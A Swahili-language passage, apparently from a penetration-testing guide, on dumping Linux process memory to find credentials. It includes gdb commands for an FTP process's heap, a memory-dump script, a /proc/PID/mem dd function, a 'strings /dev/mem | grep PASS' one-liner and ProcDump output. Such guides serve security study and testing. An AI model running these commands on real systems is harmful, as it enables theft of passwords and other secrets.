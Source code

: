 #### GDB

Ikiwa una ufikiaji wa kumbukumbu ya huduma ya FTP (kwa mfano) unaweza kupata Heap na kutafuta ndani yake nywila/vitambulisho.
```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```
#### GDB Script
```bash:dump-memory.sh
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
| sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
| while read start stop; do \
gdb --batch --pid $1 -ex \
"dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```
#### /proc/$pid/maps & /proc/$pid/mem

Kwa ID ya mchakato fulani, **maps zinaonyesha jinsi kumbukumbu imepangwa ndani ya nafasi ya anwani pepe ya mchakato huo;** pia inaonyesha **idhini za kila eneo lililopangwa**. Faili ya pseudo **mem** **inafunua kumbukumbu ya mchakato yenyewe**. Kutoka kwenye faili ya **maps** tunajua ni **mikoa ya kumbukumbu inayosomeka** na ofseti zao. Tunatumia taarifa hii **kuingia kwenye faili ya mem na kuandika maeneo yote yanayosomwa** kwenye faili.
```bash
procdump()
(
cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
while read a b; do
dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
done )
cat $1*.bin > $1.dump
rm $1*.bin
)
```
#### /dev/mem

`/dev/mem` hutoa ufikaji kwa kumbukumbu ya **kimwili** ya mfumo, sio kumbukumbu ya virtual. Nafasi ya anwani ya virtual ya kernel inaweza kupatikana kwa kutumia /dev/kmem.\
Kwa kawaida, `/dev/mem` inasomwa tu na **root** na kikundi cha kmem.
```
strings /dev/mem -n10 | grep -i PASS
```
### ProcDump kwa linux


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714